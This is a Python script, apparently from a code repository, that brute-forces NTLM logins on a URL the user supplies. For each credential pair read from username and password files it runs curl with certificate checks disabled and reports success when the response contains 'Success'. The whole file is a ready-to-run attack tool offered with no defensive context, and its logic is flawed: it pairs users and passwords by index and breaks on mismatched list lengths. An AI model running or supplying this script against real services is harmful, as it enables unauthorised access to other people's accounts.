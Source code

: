 # Brute-Force-Python-Script

#!/usr/bin/python
import subprocess

# Read usernames and passwords from files
try:
    with open("usernames.txt", "r") as user_file:
        users = user_file.read().splitlines()
except FileNotFoundError:
    print("Error: usernames.txt not found.")
    exit(1)

try:
    with open("passwords.txt", "r") as pass_file:
        passwords = pass_file.read().splitlines()
except FileNotFoundError:
    print("Error: passwords.txt not found.")
    exit(1)

if not users or not passwords:
    print("Error: Usernames or passwords list is empty.")
    exit(1)

i = 0

# Prompt the user for the URL during runtime
url = input("Enter the target URL: ")
domain = ""
cmd = ["curl", "-k", "--ntlm", "-u"]

for user in users:
    print("Attempting: " + domain + user.lower() + ":" + passwords[i])

    # Construct the command as a list
    full_cmd = cmd + [domain + user.lower() + ":" + passwords[i], url]

    # Use subprocess to run the command and capture output
    process = subprocess.Popen(full_cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    output, error = process.communicate()

    # Check if the process was successful and if the output contains success indicators
    if process.returncode == 0 and b'Success' in output:
        print("Success: Authentication successful for " + user.lower())
    else:
        print("Failure: Authentication failed for " + user.lower())

    i += 1
